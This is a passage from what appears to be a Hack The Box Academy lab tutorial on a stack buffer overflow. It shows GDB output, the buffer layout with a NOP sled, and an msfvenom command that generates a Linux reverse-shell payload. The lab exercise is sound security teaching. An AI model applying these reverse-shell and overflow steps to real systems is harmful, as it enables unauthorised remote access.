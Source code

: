 ```shell-session
(gdb) i r ebp
ebp            0x55555555       0x55555555
```


----

### Determine the Length of the Shellcode
Now we should find out how much space we have for our shellcode to perform the action we want. It is trendy and useful for us to exploit such a vulnerability to get a reverse shell. First, we have to find out approximately how big our shellcode will be that we will insert, and for this, we will use `msfvenom`.

#### Shellcode - Length

Shellcode - Length

```shell-session
Gaurav Raj@htb[/htb]$ msfvenom -p linux/x86/shell_reverse_tcp LHOST=127.0.0.1 lport=31337 --platform linux --arch x86 --format c

No encoder or badchars specified, outputting raw payload
Payload size: 68 bytes
<SNIP>
```

We now know that our payload will be about 68 bytes. As a precaution, we should try to take a larger range if the shellcode increases due to later specifications.

Often it can be useful to insert some `no operation instruction` (`NOPS`) before our shellcode begins so that it can be executed cleanly. Let us briefly summarize what we need for this:

1.  We need a total of 1040 bytes to get to the `EIP`.
2.  Here, we can use an additional `100 bytes` of `NOPs`
3.  `150 bytes` for our `shellcode`.

Shellcode - Length

```shell-session
   Buffer = "\x55" * (1040 - 100 - 150 - 4) = 786
     NOPs = "\x90" * 100
Shellcode = "\x44" * 150
      EIP = "\x66" * 4'
```

#### Buffer

![image](https://academy.hackthebox.eu/storage/modules/31/buffer_overflow_8.png)

Now we can try to find out how much space we have available to insert our shellcode.

#### GDB

GDB

```shell-session
(gdb) run $(python -c 'print "\x55" * (1040 - 100 - 150 - 4) + "\x90" * 100 + "\x44" * 150 + "\x66" * 4')

The program being debugged has been started already.
Start it from the beginning? (y or n) y

Starting program: /home/student/bow/bow32 $(python -c 'print "\x55" * (1040 - 100 - 150 - 4) + "\x90" * 100 + "\x44" * 150 + "\x66" * 4')
Program received signal SIGSEGV, Segmentation fault.
0x66666666 in ?? ()
```
